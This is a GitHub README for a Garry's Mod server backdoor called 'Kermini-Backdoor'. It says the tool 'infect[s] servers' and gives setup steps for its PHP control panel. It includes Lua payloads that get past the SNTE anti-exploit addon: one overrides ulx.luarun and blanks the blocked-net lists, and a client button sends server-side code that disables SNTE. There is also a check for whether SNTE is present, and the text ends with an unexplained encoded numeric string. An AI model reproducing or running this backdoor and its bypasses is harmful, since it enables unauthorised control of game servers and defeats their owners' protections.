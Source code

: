 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

 # Kermini Official Discord
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc

# Installation Process | Files
Before Starting be sure to get keys for RecaptchaV2 https://www.google.com/recaptcha/

open index.html and change Captcha Keys 

open main.php and change Database settings and the others options if you want
Captcha Keys

open class/Config.php and change Database settings


open install folder and change Database settings in register.php
captcha keys in index.html and register.php

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# Hey i found an exploit related to the panel !

No problem, just contact me and tell me what is going wrong, i will do my best to resolve it.

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

# The code is telling me something 

yep i can code in php but im not a pro designer so i used
- https://github.com/bcool/ULX-Global-Ban/tree/master/WebPage/TCB-Theme-master (For the display)
- And somthing called Gbackdoor (I know there is exploits related to this panel, i made a different code for some parts) 

ps : gbackdoor used only for server adding/update | Payload system have been a little bit modified

                     97/71/86/53/73/72/108/118/100/83/66/51/98/50/52/103/52/111/67/
